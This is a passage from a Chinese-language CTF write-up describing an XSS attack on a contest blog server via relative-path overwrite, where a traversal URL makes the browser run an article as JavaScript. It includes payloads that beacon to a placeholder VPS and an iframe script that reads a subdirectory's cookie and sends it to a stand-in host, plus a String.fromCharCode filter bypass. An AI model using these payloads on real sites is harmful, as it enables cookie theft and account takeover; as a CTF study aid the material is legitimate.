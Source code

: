 把635替换成你的文章代码,这里对于服务器来说访问的是

`http://39.107.33.96:20000/index.php`

但是对于浏览器来说他访问的就是

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

然后这个时候浏览器会发起js请求去请求原本index.php会加载的`../static/js/bootstrap.min.js`就是向

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php/../static/js/bootstrap.min.js`

相当于

`http://39.107.33.96:20000/index.php/view/article/635/static/bootstrap.min.js`

这里访问的结果和访问

`http://39.107.33.96:20000/index.php/view/article/635/`

也就是你的文章的内容是一样的(不明白的可以自己本地测试)，不同的是浏览器是以js引擎去解析你的文章的，也就是会把你的文章当成一段js去执行。所以这里就可以绕过`<>`的过滤执行xss了。

所以我们新建一个文章内容为
```
var a = new XMLHttpRequest();
a.open('GET', 'yourvpsip', false);
a.send(null);
```
然后用浏览器访问

`http://39.107.33.96:20000/index.php/view/article/22957/..%2f..%2f..%2f..%2findex.php`

然后这里发现居然没有发起请求，查看源码发现是过滤了`"`和`'`，然后我就自作聪明的用反引号，然后我就陷入了无尽的玄学道路，我发现本地浏览器，vsp就可以收到请求

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q6.png)

但是提交给bot就收不到请求，然后我就一直在这里卡了超级长的时间，期间还问了出题人,bot等问题…直到晚上用`String.fromCharCode`才解决了这个玄学问题(这个点真心卡了我好久),后面就比较简单了收到请求后发现cookie有提示

联想到国赛的一道读取子目录cookie的题目
>https://www.lorexxar.cn/2017/07/11/guosai2017/

脚本拿来改了改就可以get子目录cookie了

```
var iframe = document.createElement("iframe");
iframe.src = "/QWB_f14g/QWB";
iframe.id = "frame";
document.body.appendChild(iframe);
iframe.onload = function (){
  	var c = document.getElementById('frame').contentWindow.document.cookie;
	var n0t = document.createElement("link");
	n0t.setAttribute("rel", "prefetch");
	n0t.setAttribute("href", "//xxx/?" + c);
	document.head.appendChild(n0t);
}
```
然后把所有引号之间的内容用String.fromcode()编码一下
